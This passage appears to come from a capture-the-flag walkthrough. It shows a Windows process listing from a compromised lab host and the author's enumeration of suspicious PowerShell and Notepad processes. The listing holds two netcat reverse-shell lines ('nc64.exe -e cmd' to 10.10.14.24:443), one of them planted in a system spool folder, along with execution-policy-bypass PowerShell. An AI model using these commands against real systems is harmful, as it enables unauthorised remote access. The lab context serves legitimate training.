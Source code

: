           880 cmd.exe                   C:\Windows\system32\cmd.exe /c ""C:\Users\Administrator\AppData\Roaming\Microsof...
         4544 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
         2108 notepad.exe               "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Micros...
         2100 powershell.exe            powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Wind...
         3380 mysqld.exe                "C:\Program Files\MySQL\MySQL Server 8.0\bin\mysqld"  --defaults-file="C:\Progra...
         2368 mysqld.exe                "C:\Program Files\MySQL\MySQL Server 8.0\bin\mysqld" "--defaults-file=C:\Program...
          744 svchost.exe               C:\Windows\System32\svchost.exe -k LocalServiceNoNetwork -p -s DPS
         1300 svchost.exe               C:\Windows\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s UALSVC
         5664 svchost.exe               C:\Windows\System32\svchost.exe -k LocalService -p -s LicenseManager
         5928 svchost.exe               C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s StorSvc
         3572 svchost.exe               C:\Windows\System32\svchost.exe -k LocalSystemNetworkRestricted -p -s DsSvc
         4296 taskhostw.exe             taskhostw.exe
         6120 svchost.exe               C:\Windows\system32\svchost.exe -k LocalSystemNetworkRestricted -p -s PcaSvc
         4128 wsmprovhost.exe           C:\Windows\system32\wsmprovhost.exe -Embedding
         1988 nc64.exe                  "\\10.10.14.24\share\nc64.exe" -e cmd 10.10.14.24 443
         1556 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
         5056 cmd.exe                   cmd
         4124 cmd.exe                   "C:\Windows\System32\cmd.exe" /c C:\Windows\System32\WindowsPowerShell\v1.0\powe...
         1864 conhost.exe               \??\C:\Windows\system32\conhost.exe 0x4
         5744 powershell.exe            C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe  -WindowStyle Hidden -...
         2044 nc64.exe                  "\windows\system32\spool\drivers\color\nc64.exe" -e cmd 10.10.14.24 443
         3280 cmd.exe                   cmd
         4064 powershell.exe            powershell
    

Scanning through the list, these two jumped out:

    
    
         2108 notepad.exe               "C:\Windows\System32\notepad.exe" "C:\Users\Administrator\AppData\Roaming\Micros...
         2100 powershell.exe            powershell  -ep bypass -f "C:\Users\Administrator\AppData\Roaming\Microsoft\Wind...
    

Process 2100 is PowerShell running out of the administrator’s `AppData`
directory, and 2108 is Notepad editing something in the same path. I’ll get
the full command line for each:

    
    
    PS C:\> Get-WmiObject Win32_Process | Where {$_.ProcessId -eq 2100 -or $_.ProcessId -eq 2108} | Select-Object CommandLine | fl
    